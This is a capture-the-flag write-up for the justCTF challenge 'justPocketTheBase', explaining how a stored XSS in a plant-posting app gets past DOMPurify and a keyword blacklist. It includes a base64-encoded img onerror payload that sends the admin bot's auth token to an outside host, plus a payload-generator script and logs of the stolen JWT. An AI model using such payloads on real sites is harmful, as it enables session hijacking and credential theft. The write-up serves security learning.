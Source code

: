 # justPocketTheBase

## Description
```
The thing I love the most about ready-to-use backends and frameworks is that they are always secure :)

-http://justpocketthebase.web.jctf.pro
```

## Provided Files
```
- justpocketthebase_docker.tar.gz
```

## Writeup

> [!NOTE]
> Credit to [Profiluefter](https://github.com/profiluefter) and [lavish](https://github.com/lavish) who worked together with me on this challenge.

Starting off by taking a look at the website before inspecting the provided code. <br/>
After creating an account we are able to create plants with a custom `title` and a custom `image` we provide which will be stored in the application and can be accessed via `/view-plant?id=[ID]`. <br/>
Custom character-blacklist:  <br/>
```js
let blacklist = [
	'window',
	'document',
	'cookie',
	'fetch',
	'navigator',
	'sendbeacon',
	'+',
	'_',
	'script',
	'!',
	'"',
	'#',
	'%',
	"'",
	'(',
	')',
	'*',
	'+',
	',',
	'-',
	'/',
	':',
	'?',
	'@',
	'[',
	']',
	';'
];

const sanitizedTitle = DOMPurify.sanitize(plant.title);
const newTitleElement = document.createElement('div');
newTitleElement.classList.add('title');
newTitleElement.innerHTML = sanitizedTitle;
const safe = newTitleElement.innerText;
try {
        if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
		throw new Error('not safe!!!');
	}
	title.innerHTML = safe;
} catch (err) {
	window.location.href = '/';
}
```

A reporting option on the website indicates a possible `XSS` vulnerabiltiy, so we analyzed the `sanitization-process` for the title element of a new post. <br/>

The `dompurify` can be bypassed using [HTML-Entity-Characters](https://html.com/character-codes/) by simply encoding `<` and `>`. <br/>
After the dompurify our input will be decoded meaning the same approach wouldn't work to bypass the `custom-blacklist`. <br/>

It's possible to execute XSS via the `title` of a new plant by exchanging **()** with **``**. <br/>
```js
&lt;img src=1 onerror=alert`1`&gt;
// &lt; == <
// &gt; == >
```
Although this confirmed our suspicion, it didn't help much because the `custom-blacklist` still blocked valuable characters which we need. <br/>  

After knowing that we are successfully able to execute a `Cross-Site-Scripting-Attack` via title we were now searching for a possible way to bypass the `custom-blacklist` which disallows important characters like `/`. <br/>
To find a way around this issue we tried an approach using a `base64` encoded payload which can be decoded using the `builtin` javascript function `atob` (ASCII to Binary). <br/>
This would bypass the `custom-blacklist` as our encoded payload doesn't contain the actual characters like `/` or `:`. <br/>
Using [PortSwigger-Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#img-tag-with-base64-encoding) we found a way to execute our encoded payload. <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;
```

Making a script to enchance efficiency: <br/>
```py
import base64

payload = 'JAVASCRIPT-PAYLOAD'

print(f'&lt;img src=1 onerror=location=atob`{base64.b64encode(bytes(f"javascript:{payload}", "utf-8"))}`&gt;')
```

Leak localstorage which contains the JWT of the bot: <br/>
```js
&lt;img src=1 onerror=location=atob`amF2YXNjcmlwdDpmZXRjaChgaHR0cHM6Ly9hcnl0My5kZXYvJHtsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIil9YCk=`&gt;

// fetch(`https://aryt3.dev/${localStorage.getItem("pocketbase_auth")}`)
```

Server Logs after reporting the webpage: <br/>
```
167.71.14.123 - - [15/Jun/2024:13:54:43 +0200] "GET /%7B%22token%22:%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjIwODIsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.LqdYoqEO8cDmOgertTUt5FsmP6jUfDM0Z-GEbEJwBkc%22,%22model%22:%7B%22avatar%22:%22%22,%22collectionId%22:%22_pb_users_auth_%22,%22collectionName%22:%22users%22,%22created%22:%222024-06-15%2010:52:23.378Z%22,%22email%22:%22%22,%22emailVisibility%22:false,%22id%22:%22ebm7wofy99nmb4b%22,%22name%22:%22%22,%22updated%22:%222024-06-15%2010:52:23.378Z%22,%22username%22:%22flag%22,%22verified%22:false%7D%7D HTTP/1.1" 502 559 "http://localhost/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/125.0.0.0 Safari/537.36"
```

URL-Decoded:
```json
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjb2xsZWN0aW9uSWQiOiJfcGJfdXNlcnNfYXV0aF8iLCJleHAiOjE3MTk2NjI2OTcsImlkIjoiZWJtN3dvZnk5OW5tYjRiIiwidHlwZSI6ImF1dGhSZWNvcmQifQ.hSvcypOCNSsIYeXJ-JZE4H7vWnt7UFvrzAoMBkxwVp0","model":{"avatar":"","collectionId":"_pb_users_auth_","collectionName":"users","created":"2024-06-15 10:52:23.378Z","email":"","emailVisibility":false,"id":"ebm7wofy99nmb4b","name":"","updated":"2024-06-15 10:52:23.378Z","username":"flag","verified":false}}
```

Having obtained the whole localstorage-item `pocketbase_auth`, we switched ours with this one. <br/>
After that we were able to access the post with the `flag-image` and download the picture. <br/>
Afterwards we inspected the image in the `admin-post` which revealed the flag and concludes this writeup. <br/>
```sh
$ exiftool flag_gygEshYymV.png 
ExifTool Version Number         : 12.76
File Name                       : flag_gygEshYymV.png

---------------------------------------------------------

Artist                          : justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}
```